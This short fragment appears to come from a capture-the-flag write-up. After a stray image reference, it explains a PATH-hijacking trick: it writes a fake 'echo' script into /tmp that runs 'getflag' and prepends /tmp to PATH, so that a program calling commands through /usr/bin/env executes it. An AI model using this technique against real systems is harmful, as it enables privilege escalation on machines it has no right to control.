 Since it uses /usr/bin/env, you might manipulate the environment:

bash
# Set PATH to point to your malicious echo
export PATH=/tmp:$PATH
echo '#!/bin/bash' > /tmp/echo
echo 'getflag' >> /tmp/echo
chmod +x /tmp/echo
